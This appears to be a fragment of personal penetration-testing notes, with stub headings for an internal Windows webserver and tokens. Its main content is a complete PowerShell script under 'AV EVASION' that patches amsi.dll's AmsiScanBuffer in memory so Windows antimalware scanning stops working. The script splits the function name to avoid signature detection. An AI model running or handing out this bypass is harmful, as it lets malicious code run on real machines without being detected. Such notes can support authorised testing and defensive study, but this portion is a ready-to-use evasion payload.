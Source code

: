 

## Windows webserver

1. now we can access all the other machines hosted internally



### Tokens



```
DO it later
```





## AV EVASION



### AMSI BYPASS

1. Patching amsi.dll

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
